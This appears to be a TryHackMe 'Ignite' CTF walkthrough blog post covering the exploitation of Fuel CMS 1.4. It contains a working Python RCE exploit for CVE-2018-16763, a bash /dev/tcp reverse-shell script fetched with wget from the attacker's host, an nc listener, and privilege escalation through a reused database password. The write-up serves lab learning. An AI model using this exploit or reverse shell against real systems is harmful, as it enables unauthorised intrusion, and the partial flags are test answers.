 ```yaml
---
title: 'Ignite - TryHackMe Walkthrough'
date: 2020-07-12 00:00:00
featured_image: '/images/posts/ignite-thm.png'
excerpt: A new start-up has a few issues with their web server.
---
```

![](/images/posts/ignite-thm.png)

## Goal
To exploit a mis-configured webserver running CMS and then gain the root access.

### Recon
When visited the default webpage that is running on the host, shows the Fuel CMS (Ver 1.4) was installed but not configured.
The page has next steps to do by the system administrator and at the end of the page it has the default credentials to login, admin:admin.

Performed a scan on the host with `nmap` :
```bash
$ nmap -p- -A 10.10.142.89
Nmap scan report for 10.10.142.89
Host is up (0.20s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS
```

The Fuel CMS 1.4 has a known vulnerability [CVE-2018-16763](https://www.exploit-db.com/exploits/47138).

### Getting a reverse shell
Using exploit from [exploit database](https://www.exploit-db.com/raw/47138), tweaked a bit and created a file remoteattack.py.  
The exploit will prompt for a command to execute on the victim.

```python
# Exploit Title: fuelCMS 1.4.1 - Remote Code Execution
# Date: 2019-07-19
# Exploit Author: 0xd0ff9
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763

import requests
import urllib

url = "http://10.10.142.89"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
    xxxx = input('cmd:')
    url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.parse.quote(xxxx)+"%27%29%2b%27"
    r = requests.get(url)

    html = "<!DOCTYPE html>"
    htmlcharset = r.text.find(html)

    begin = r.text[0:20]
    dup = find_nth_overlapping(r.text,begin,2)

    print(r.text[0:dup])
```
Test the exploit by running a sample remote command, like id, pwd etc.

```bash
$ python3 remoteattack.py
cmd:pwd
system/var/www/html
```
From above we can see the exploit is working, so we extend this to get a reverse shell to do more.

- Created a bash script file with revere shell code, revshell.sh

```bash
$cat revshell.sh
bash -i >& /dev/tcp/10.2.18.4/4444 0>&1
```
- Open a simple http server using `python -m http.server` from the same location, so the victim can download the file.
- Open a `nc` listener on port 4444; `nc -nlvp 4444`
- Run the exploit again, but this time the command is to download the reverse shell code.

```bash
$ python3 remoteattack.py
cmd:wget http://10.2.18.4:8000/revshell.sh
```
- Pass the cmd to execute the revshell.sh

```bash
$ python3 remoteattack.py
cmd:bash revshell.sh
```
- This will establish a reverse shell connection on `nc` listener and with the user *www-data*.
- The user flag can be accessible from `/home/www-data/flag.txt` which has a value: `6470e394cb--------1682cc8585059b`

### Escalating the privileges to root
- The user www-data is a normal user and we need to escalate our privileges to root.
- Using the [linPEAS.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh), lets see if there are any mis-configurations on the server.
- Download the linPEAS.sh utility to /tmp of the victim and execute it.
- Once the report is generated, go through it and under the section, "Finding pwd or passw variables", we can see there is configuration file, `fuel/application/config/database.php` with password *mememe*. The same file we can saw on the webpage during Recon also with the instructions to install the database for Fuel CMS.
- Bu going through the configuration file, we can see the above password is for the root id.
- Switch to root user using the above password and access the root flag, /root/root.txt; which has the value *b9bbcb33--------759c4e844862482d*.

Image Credits: [TryHackMe and the room creator](https://tryhackme.com/room/ignite).
